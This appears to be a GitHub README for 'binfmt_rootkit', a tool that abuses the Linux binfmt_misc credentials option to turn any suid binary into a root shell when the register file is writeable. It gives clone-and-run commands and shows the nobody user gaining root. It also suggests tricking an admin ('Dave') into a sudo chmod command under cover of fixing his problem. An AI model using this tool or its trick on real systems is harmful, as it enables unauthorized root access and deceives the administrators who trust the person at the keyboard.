 
###########
binfmt_misc
###########

Kernel Support for miscellaneous (your favourite) exploits

No breakthrough here, just some trivia involving binary formats.

binfmt_rootkit
--------------

Poor man's rootkit, leverage `binfmt_misc`__'s credentials_ option to
escalate privilege through any suid binary (and to get a root shell) if
:literal:`/proc/sys/fs/binfmt_misc/register` is writeable.

__ https://github.com/torvalds/linux/raw/master/Documentation/admin-guide/binfmt-misc.rst
.. _credentials: https://github.com/torvalds/linux/blame/3bdb5971ffc6e87362787c770353eb3e54b7af30/Documentation/binfmt_misc.txt#L62


.. code:: bash

    $ git clone https://github.com/plcp/binfmt_misc
    $ cd binfmt_misc
    $ ./binfmt_rootkit --help
    Usage: ./binfmt_rootkit
        Gives you a root shell if /proc/sys/fs/binfmt_misc/register is writeable,
        note that it must be enforced by any other mean before your try this, for
        example by typing something like "sudo chmod +6 /*/*/f*/*/*r" while Dave
        is thinking that you are fixing his problem.


Cheap nobody to root is cheap:

.. code:: bash

    $ sudo -u nobody ./binfmt_rootkit
    uid=0(root) euid=0(root)
    sh-4.4#

Feel free to PR !
